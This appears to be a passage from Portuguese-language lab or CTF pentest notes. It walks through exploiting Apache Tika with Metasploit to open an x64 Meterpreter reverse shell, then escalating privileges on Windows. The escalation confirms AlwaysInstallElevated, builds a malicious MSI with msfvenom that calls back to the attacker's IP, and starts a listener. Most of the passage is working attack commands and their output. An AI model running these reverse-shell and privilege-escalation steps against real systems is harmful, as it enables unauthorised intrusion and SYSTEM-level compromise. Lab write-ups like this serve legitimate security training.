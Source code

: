 Para nascer x64 direto:

```bash
# mate sessões antigas
sessions -K

use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.54.143
set RPORT 61777
set LHOST 10.201.65.120
set LPORT 1234
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run

sysinfo
# Meterpreter : x64/windows
```

---

# ⬆️ Privilege Escalation (Windows)

## 1) Verificar **AlwaysInstallElevated**

Quando **HKLM** e **HKCU** têm `AlwaysInstallElevated=1`, **qualquer MSI** instala como **SYSTEM**.

No **cmd** do alvo:

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**Saída:**

```
... AlwaysInstallElevated    REG_DWORD    0x1
... AlwaysInstallElevated    REG_DWORD    0x1
```

> ✔️ Vulnerabilidade confirmada: **Escalada via MSI malicioso**.

## 2) Gerar MSI malicioso (no atacante)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.201.65.120 LPORT=4445 -f msi -o elev.msi
```

## 3) Abrir handler para o payload

No **msfconsole** (outro terminal):

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.201.65.120
set LPORT 4445
run
```
